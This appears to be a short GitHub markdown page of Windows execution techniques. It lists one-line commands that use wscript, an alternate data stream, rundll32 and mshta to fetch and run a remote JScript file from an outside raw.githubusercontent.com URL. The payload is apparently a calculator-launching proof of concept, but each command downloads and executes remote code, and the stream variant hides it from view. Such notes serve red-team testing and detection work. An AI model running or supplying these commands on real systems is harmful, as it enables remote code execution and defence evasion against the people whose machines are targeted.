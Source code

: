 #### GetObject

wscript/cscript <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > test.js && wscript.exe test.js`<br>
<br>

Alternate data streams method <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js`

rundll32<br><br>
`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js")`
<br>
<br>
mshta 
<br><br>
`mshta.exe javascript:GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js");close();`


<br><br>ads method suggested by @@yeyint_mth
